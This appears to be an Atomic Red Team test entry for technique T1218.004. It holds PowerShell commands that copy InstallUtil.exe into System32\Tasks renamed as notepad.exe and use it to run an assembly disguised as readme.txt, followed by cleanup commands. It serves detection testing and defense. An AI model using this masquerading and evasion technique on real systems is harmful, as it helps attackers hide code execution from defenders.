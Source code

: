 **Supported Platforms:** Windows

**auto_generated_guid:** 559e6d06-bb42-4307-bff7-3b95a8254bad

#### Inputs:

| Name         | Description                                                                    | Type | Default Value                                                            |
| ------------ | ------------------------------------------------------------------------------ | ---- | ------------------------------------------------------------------------ |
| test_harness | location of the test harness script - Invoke-BuildAndInvokeInstallUtilAssembly | path | PathToAtomicsFolder&#92;T1218.004&#92;src&#92;InstallUtilTestHarness.ps1 |

#### Attack Commands: Run with `powershell`!

```powershell
# Import the required test harness function, Invoke-BuildAndInvokeInstallUtilAssembly
. "#{test_harness}"

$InstallerAssemblyDir = "$Env:windir\System32\Tasks"
$InstallerAssemblyFileName = 'readme.txt'
$InstallerAssemblyFullPath = Join-Path -Path $InstallerAssemblyDir -ChildPath $InstallerAssemblyFileName

$CommandLine = "readme.txt"
$ExpectedOutput = 'Constructor_'

# Explicitly set the directory so that a relative path to readme.txt can be supplied.
Set-Location "$Env:windir\System32\Tasks"

Copy-Item -Path "$([System.Runtime.InteropServices.RuntimeEnvironment]::GetRuntimeDirectory())InstallUtil.exe" -Destination "$Env:windir\System32\Tasks\notepad.exe"

$TestArgs = @{
    OutputAssemblyDirectory = $InstallerAssemblyDir
    OutputAssemblyFileName = $InstallerAssemblyFileName
    InvocationMethod = 'Executable'
    CommandLine = $CommandLine
    InstallUtilPath = "$Env:windir\System32\Tasks\notepad.exe"
}

$ActualOutput = Invoke-BuildAndInvokeInstallUtilAssembly @TestArgs -MinimumViableAssembly

if ($ActualOutput -ne $ExpectedOutput) {
    throw @"
Evasive Installutil invocation test failure. Installer assembly execution output did not match the expected output.
Expected: $ExpectedOutput
Actual: $ActualOutput
"@
}
```

#### Cleanup Commands:

```powershell
Remove-Item -Path "$Env:windir\System32\Tasks\readme.txt" -ErrorAction Ignore
Remove-Item -Path "$Env:windir\System32\Tasks\readme.InstallLog" -ErrorAction Ignore
Remove-Item -Path "$Env:windir\System32\Tasks\readme.InstallState" -ErrorAction Ignore
Remove-Item -Path "$Env:windir\System32\Tasks\notepad.exe" -ErrorAction Ignore
```
